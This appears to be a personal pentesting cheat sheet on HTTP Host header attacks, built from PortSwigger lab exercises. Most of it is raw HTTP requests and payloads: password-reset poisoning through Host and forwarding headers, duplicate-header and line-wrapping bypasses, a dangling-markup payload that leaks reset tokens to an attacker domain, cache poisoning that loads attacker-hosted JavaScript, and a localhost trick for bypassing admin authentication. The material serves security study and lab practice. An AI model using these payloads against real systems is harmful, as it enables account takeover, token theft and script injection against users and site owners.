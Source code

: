 # Host Header Attacks

## Techniques & Bypasses

### Reset Password Poisoning

##### Host Header

```http
POST /forgot-password HTTP/2
Host: xle0x.com

username=carlos
```

The victim will click on the link `https://xle0x.com/reset-password?token=blahdfsfjf`

This sends the token to the `xle0x.com` server's logs.

> [!Bypass]
> **You could try to add another `Host` header with your server.**

##### Other Headers

```http
X-Forwarded-For: xle0x.com
X-Forwarded-Host: xle0x.com
X-Forwarded-Server: xle0x.com
X-HTTP-Host-Override: xle0x.com
Forwarded: xle0x.com
X-Host: xle0x.com
```

##### SUPPLY ABSOLUTE URL

```http
GET **https://vulnerable-website.com/** HTTP/1.1  
**Host: xle0x.com**
```

##### ADD A LINE WRAPPING

```http
GET /blah HTTP/1.1  
	Host: xle0x.com 
Host: vulnerable-website.com
```

##### Dangling markup injection

```http
POST /forgot-password HTTP/2
Host: 0a6b006704acc64181b8840800d60033.web-security-academy.net:1212"><img src="//xle0x?token=

username=carlos
```

When we change the host to `xle0x.com` I got 503 Gateway Error. But when I added the port part,  I bypassed it.
```html
"><img src="//xle0x?token=
```
This code called Dangling markup as it doesn't have a ending tag. It's trying to request your server. (The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include [CSRF](https://portswigger.net/web-security/csrf) tokens, email messages, or financial data.) This is used to bypass some filters and [content security policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) ([CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)).

---
### Web cache poisoning

###### Request:
```http
GET / HTTP/1.1
Host: 0a3100ec03d5949b826cbf3e00670008.h1-web-security-academy.net
Host: xle0x.com
```
###### Response:
```html
<script type="text/javascript" src="//xle0x.com/resources/js/tracking.js"></script>
```

After It got reflected I created a js file with the same path on my server. and the code executed!

### authentication bypass 

##### Request:
```http
GET /admin HTTP/2
Host: vulnerable-website.com
```

##### Response:
```http
HTTP/2 401 Unauthorized
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5707
```

> [!NOTE]
> change the host to `localhost` or `127.0.0.1` and you may bypass it.
